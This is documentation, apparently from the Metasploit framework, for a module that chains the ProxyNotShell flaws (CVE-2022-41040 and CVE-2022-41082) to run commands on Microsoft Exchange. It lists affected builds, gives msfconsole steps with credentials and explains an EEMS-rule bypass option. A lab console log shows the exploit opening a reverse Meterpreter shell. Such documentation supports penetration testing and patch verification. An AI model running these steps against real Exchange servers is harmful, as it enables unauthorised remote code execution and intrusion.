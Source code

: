 ## Vulnerable Application

This module chains two vulnerabilities on Microsoft Exchange Server that, when combined, allow an authenticated attacker
to interact with the Exchange Powershell backend (CVE-2022-41040), where a deserialization flaw can be leveraged to
obtain code execution (CVE-2022-41082).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.44
  * Exchange 2016 CU22 < 15.1.2375.37
  * Exchange 2016 CU23 < 15.1.2507.16
  * Exchange 2019 CU11 < 15.2.986.36
  * Exchange 2019 CU12 < 15.2.1118.20

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: November 8, 2022 (KB5019758)][1]*

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxynotshell_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [USERNAME]`
5. Do: `set PASSWORD [PASSWORD]`
6. Do: `run`

## Options
### EemsBypass
*This is an advanced option.*

Technique to bypass the EEMS rule.

**none** -- Make no attempt to bypass the EEMS rule. This can be used with the `check` method to determine if the EEMS 
M1 rule is applied.
**IBM037v1** -- Use IBM037 encoding combined with the `X-Up-Devcap-Post-Charset` header and `UP` User-Agent prefix. See
[ProxyNotRelay][2] for more information.

## Scenarios

### Version and OS

```
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set USERNAME aliddle
USERNAME => aliddle
msf6 exploit(windows/http/exchange_proxynotshell_rce) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (175686 bytes) to 192.168.159.11
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.11:7290) at 2022-11-18 17:32:18 -0500

meterpreter > 
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-november-8-2022-kb5019758-2b3b039b-68b9-4f35-9064-6b286f495b1d
[2]: https://rw.md/2022/11/09/ProxyNotRelay.html

